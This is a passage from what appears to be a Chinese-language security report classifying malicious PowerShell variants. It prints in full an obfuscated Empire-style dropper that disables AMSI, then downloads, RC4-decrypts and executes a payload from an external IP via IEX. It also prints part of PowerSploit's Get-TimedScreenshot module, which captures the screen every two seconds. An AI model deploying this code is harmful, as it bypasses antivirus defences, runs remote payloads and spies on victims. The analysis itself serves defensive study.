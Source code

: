 Matt Graeber发布了一行Twitter短文，告诉人们如何通过将“amsiInitFailed“设置为”True“来绕过AMSI机制，这种设置会让防病毒软件误以为AMSI失效从而绕过此项检查。

```
[ReF].ASSEmbly.GetTYpe('System.Management.Automation.AmsiUtils')|?{$_}|%{$_.GeTFIElD('amsiInitFailed','NonPublic,Static').SetVAlue($Null,$True)};[SySteM.Net.SErviCEPOINTMaNAger]::ExPeCt100ConTinue=0;$wC=NEW-OBjEcT System.NET.WebClieNt;$u='Mozilla/5.0 (Windows NT 6.1; WOW64; Trident/7.0; rv:11.0) like Gecko';$Wc.HEAdERs.ADD('User-Agent',$u);$wC.PRoxY=[SYStEm.NET.WEBREQuEst]::DeFaUlTWEbProXY;$Wc.ProXY.CREDenTIALs = [SYSteM.NEt.CReDentIalCAcHe]::DeFAulTNetwORKCREdEntialS;$K=[SySTEm.TexT.EncodING]::ASCII.GETBYteS('Dv,inKZ&amp;lt;@{3mjG4&amp;amp;1k:Vcl7o)EY*J?6x');$R={$D,$K=$ArGS;$S=0..255;0..255|%{$J=($J+$S[$_]+$K[$_%$K.COuNT])%256;$S[$_],$S[$J]=$S[$J],$S[$_]};$D|%{$I=($I+1)%256;$H=($H+$S[$I])%256;$S[$I],$S[$H]=$S[$H],$S[$I];$_-Bxor$S[($S[$I]+$S[$H])%256]}};$Wc.HEaDERs.ADD("Cookie","session=Pu8sEnIpxIwINbUOVsxlL66DoHA=");$ser='http://35.165.38[.]15:80';$t='/login/process.php';$dATa=$WC.DowNLOadDAtA($ser+$T);$IV=$DaTA[0..3];$Data=$DaTa[4..$DAtA.leNgTH];-JoIn[CHAr[]](&amp;amp; $R $data ($IV+$K))|IEX
```

以上代码与PowerShell Empire中的EncryptedScriptDropper存在类似异或处理特征，可能与之直接有关，或者参考了其中部分代码。

**4.25 PowerSploit GTS（3个样本，占比0.07%）**

此类变种直接来源于PowerSploit的Get-TimedScreenshot模块。以下代码每隔两秒抓取一次屏幕截图。



```
function Get-TimedScreenshot
{
    [CmdletBinding()] Param(
        [Parameter(Mandatory=$True)]
        [ValidateScript({Test-Path -Path $_ })]
        [String] $Path,
        [Parameter(Mandatory=$True)]
        [Int32] $Interval,
        [Parameter(Mandatory=$True)]
        [String] $EndTime
    )
    Function Get-Screenshot {
       $ScreenBounds = [Windows.Forms.SystemInformation]::VirtualScreen
       $ScreenshotObject = New-Object Drawing.Bitmap $ScreenBounds.Width, $ScreenBounds.Height
       $DrawingGraphics = [Drawing.Graphics]::FromImage($ScreenshotObject)
       $DrawingGraphics.CopyFromScreen( $ScreenBounds.Location, [Drawing.Point]::Empty, $ScreenBounds.Size)
       $DrawingGraphics.Dispose()
       $ScreenshotObject.Save($FilePath)
       $ScreenshotObject.Dispose()
    }
    Try {
        #load required assembly
        Add-Type -Assembly System.Windows.Forms
        Do {
            #get the current time and build the filename from it
            $Time = (Get-Date)
            [String] $FileName = "$($Time.Month)"
            $FileName += '-'
            $FileName += "$($Time.Day)"
            $FileName += '-'
            $FileName += "$($Time.Year)"
            $FileName += '-'
            $FileName += "$($Time.Hour)"
            $FileName += '-'
            $FileName += "$($Time.Minute)"
            $FileName += '-'
            $FileName += "$($Time.Second)"
            $FileName += '.png'
            [String] $FilePath = (Join-Path $Path $FileName)
            Get-Screenshot
```